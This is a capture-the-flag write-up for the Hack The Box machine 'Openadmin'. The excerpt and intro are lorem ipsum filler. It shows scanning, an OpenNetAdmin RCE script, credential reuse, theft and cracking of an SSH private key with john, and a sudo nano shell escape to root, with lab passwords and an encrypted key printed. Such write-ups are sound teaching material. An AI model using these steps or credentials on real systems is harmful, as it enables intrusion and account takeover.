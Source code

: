 ```yaml
---
layout: single
title: Openadmin - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-01-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-openadmin/openadmin_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-openadmin/openadmin_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@p3:/opt/htb/machines/resolute# nmapAutomatorDirb.sh 10.10.10.171 All
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    + http://openadmin.htb/index.html (CODE:200|SIZE:10918)
    + http://openadmin.htb/server-status (CODE:403|SIZE:278)
    + http://openadmin.htb/artwork/index.html (CODE:200|SIZE:14461)
    + http://openadmin.htb/music/index.html (CODE:200|SIZE:12554)

2. Looking through the websites we find that "Admin" has made a lot of posts on /artwork/blog.html, this might be a possible user.
   Also a testemonial from Craig Stephen, also possible user?

   On /music/index.html, pressing the Login button gives us what looks like admin privs for OpenNetAdmin http://openadmin.htb/ona/
   The application is running on version 18.1.1, which is NOT the latest release. A quick google shows us that this version has a
   RCE vulnerability.

3. Running the RCE script gives us a "shell" as user www-data with limited privs. We are unable to traverse, but can execute commands
    root@p3:/opt/htb/machines/openadmin# ./ona-expl.sh http://openadmin.htb/ona/
      $ whoami
        www-data

   Enumerating through the folders of /opt/ona/www we find a config file for the database connection, and within credentials.
     $ cat local/config/database_settings.inc.php
      <?php

      $ona_contexts=array (
        'DEFAULT' =>
        array (
          'databases' =>
          array (
            0 =>
            array (
              'db_type' => 'mysqli',
              'db_host' => 'localhost',
              'db_login' => 'ona_sys',
              'db_passwd' => 'n1nj4W4rri0R!',
              'db_database' => 'ona_default',
              'db_debug' => false,
            ),
          ),
          'description' => 'Default data context',
          'context_color' => '#D3DBFF',
        ),
      );

   $ ls -al /home/
    total 16
    drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
    drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
    drwxr-x---  6 jimmy  jimmy  4096 Jan  7 06:29 jimmy
    drwxr-x---  6 joanna joanna 4096 Nov 28 09:37 joanna

We got 2 users (jimmy & joanna) and 1 password (n1nj4W4rri0R!)

4. We are able to SSH with the credentials jimmy:n1nj4W4rri0R!
   Enumerating through the box we find /var/www/internal and within index.php, main.php and logout.php.

   main.php has some interesting code - if user = jimmy and password = some-hash, then we are able to access main.php

   <?php
    $msg = '';

    if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
      if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
          $_SESSION['username'] = 'jimmy';
          header("Location: /main.php");
      } else {
          $msg = 'Wrong username or password.';
      }
    }

5. First we need to find the port this local webserver is running on, we use ss for this.
    jimmy@openadmin:/var/www/internal$ ss -tulpn
    Netid        State          Recv-Q          Send-Q                    Local Address:Port                    Peer Address:Port
    udp          UNCONN         0               0                         127.0.0.53%lo:53                           0.0.0.0:*
    tcp          LISTEN         0               80                            127.0.0.1:3306                         0.0.0.0:*
    tcp          LISTEN         0               128                           127.0.0.1:52846                        0.0.0.0:*
    tcp          LISTEN         0               128                       127.0.0.53%lo:53                           0.0.0.0:*
    tcp          LISTEN         0               128                             0.0.0.0:22                           0.0.0.0:*
    tcp          LISTEN         0               128                                   *:80                                 *:*
    tcp          LISTEN         0               128                                [::]:22                              [::]:*

   We know all of the ports except 52846, this is most likely the local webserver. Try to curl it and see if it looks right.
    jimmy@openadmin:/var/www/internal$ curl localhost:52846
      ..
      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
            </div> <!-- /container -->
      ..

   This output seems to match the data in /var/www/internal/index.php. So lets try to curl main.php using jimmys credentials.
    jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php -u jimmy:n1nj4W4rri0R!
      <pre>-----BEGIN RSA PRIVATE KEY-----
      Proc-Type: 4,ENCRYPTED
      DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

      kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
      ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
      ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
      6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
      ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
      y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
      9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
      piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
      /U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
      40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
      fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
      9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
      X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
      S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
      FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
      Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
      RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
      uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
      1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
      XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
      yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
      +4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
      qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
      z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
      K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
      -----END RSA PRIVATE KEY-----
      </pre><html>
      <h3>Don't forget your "ninja" password</h3>
      Click here to logout <a href="logout.php" tite = "Logout">Session
      </html>

   main.php runs the command 'cat /home/joanna/.ssh/id_rsa' meaning we just got joanna's private ssh key.

6. Trying to login with the extracted private key requires an passphrase key, so we need to crack it.
   The key is in .pem format so before cracking we need to convert it using ssh2john.

   root@p3:/usr/share/john# python ssh2john.py /opt/htb/machines/openadmin/joanna-id_rsa > /opt/htb/machines/openadmin/hash-joanna
   root@p3:/opt/htb/machines/openadmin# john --wordlist=/usr/share/wordlists/rockyou.txt hash-joanna
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 12 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    bloodninjas      (/opt/htb/machines/openadmin/joanna-id_rsa)
    1g 0:00:00:01 DONE (2020-01-07 14:43) 0.5882g/s 8436Kp/s 8436Kc/s 8436KC/s  0125457423 ..*7¡Vamos!
    Session completed

   Password for Joanna's Private Key: bloodninjas

7. Login as Joanna and grab user.txt
    root@p3:/opt/htb/machines/openadmin# ssh joanna@openadmin.htb -i joanna-id_rsa
      Enter passphrase for key 'joanna-id_rsa': bloodninjas
    joanna@openadmin:~$ cat user.txt
      c9b2****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. sudo -l shows us that we can run "sudo /bin/nano /opt/priv" without any password. Looking at gtfobins there is a privesc
   using nano to get a root shell.

   joanna@openadmin:/opt$ sudo /bin/nano /opt/priv
   Press CTRL + R to for "Read File" and then CTRL + X for "Execute Command". Next, write 'reset; sh 1>&0 2>&0' to get shell

    Command to execute: reset; sh 1>&0 2>&0
     #
     #
     # whoami
      root
     # cat /root/root.txt
      2f90****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

OpenNetAdmin 18.1.1 RCE
  https://packetstormsecurity.com/files/155406/OpenNetAdmin-18.1.1-Remote-Code-Execution.html

GTFOBINS Nano
  https://gtfobins.github.io/gtfobins/nano/#sudo
